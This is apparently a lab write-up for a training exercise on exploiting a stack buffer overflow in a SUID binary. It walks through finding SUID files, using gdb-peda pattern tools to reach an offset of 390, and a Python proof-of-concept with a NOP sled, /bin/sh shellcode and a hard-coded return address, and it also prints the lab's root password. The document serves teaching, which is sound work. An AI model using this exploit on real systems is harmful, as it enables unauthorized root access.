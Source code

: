 # Tasks

## Task 1: Connect to the compromised machine and identify interesting binaries

Using bash or any other scripting language, you might want to examine the file system in order to quickly locate interesting binaries. Be reminded that vulnerable SUID binaries can result in privilege escalation. The _ltrace_ tool may help you perform an initial investigation of any interesting binaries.

## Task 2: Identify the buffer overflow vulnerability

Examine the identified SUID binary. Try to experiment with the data it processes. Can you overflow the buffer? Focus on the arguments...

## Task 3: Find the proper offset to achieve a precise EIP overwrite

Find the proper payload length to achieve a precise EIP overwrite. Gdb-peda's **pattern create** and **pattern offset** commands can help you with that.

## Task 4: Complete the exploit with shellcode and spawn a root shell

Implement shellcode into your exploit and spawn a root shell. You can use the shellcode provided in the same directory as target binary.

**Notes**:

1.  The created exploit may not work outside the debugger. Leverage the created core file to debug and investigate the area around the ESP register. Maybe the location where you landed needs to be re-adjusted inside the exploit...
    
2.  The target binary should be fed with the payload as follows.
    

```
./target_binary `python exploit_name.py`
```

You will notice that no core file is being created. This can be fixed, as follows.

```bash
rm core #To remove any previous core file, created by another "feeding" method
su root #Password: XDEVS1111bnm
echo "core" > /proc/sys/kernel/core_pattern
exit
```

Now ``./target_binary `python exploit_name.py` `` will result in a core file being created.

-------------------------------------------

# Lab Part
Finding target: `find / -perm -u=s -type f 2>/dev/null`

![image1.png](image1.png)

We can see there is an interesting file `/home/xdev/Desktop/.lab/unknown`

Let's get into the file and explore what we can exploit

![image2.png](image2.png)

As we can see, `unknown` is a linux execution file. Note that in the task guide, we can run the file with this syntax:
- ```./target_binary $(python exploit_name.py)```

In `shellcode.py` we have a string contain hex value

```python
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```

Now, let's debugging the `ELF` file.

![image3.png](image3.png)

When we run it, the program is immediately crashed.
- To get more function's information, use `info functions`

![image4.png](image4.png)

- In here, we found there are 4 functions called in the code and others are machine's library

Make a pattern create: 

- `pattern create 500 1.txt` 

Execute the pattern to get offset:

- `r $(cat 1.txt)`

![image5.png](image5.png)

Using `pattern offset` to get the position of **0x5a254177**, and we have 390.

Override the **EIP**: `python -c "print('A'*390+'B'*4)"`

![image6.png](image6.png)

Find the start of the buffer: `x/200wx $esp-0x200`

![image7.png](image7.png)

- Now we know the start of the buffer is `0xbffff2a6`

## Proof of Concept

```python
offset = 390  
buf = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68" \  
      "\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89" \  
      "\xc2\xb0\x0b\xcd\x80"  
  
payload = ''  
payload += '\x90'*90  
payload += buf  
payload += 'A'*(offset - 90 - len(buf))  
payload += '\xf0\xf2\xff\xbf'  
  
print(payload)
```

![image8.png](image8.png)

The lab is pwned!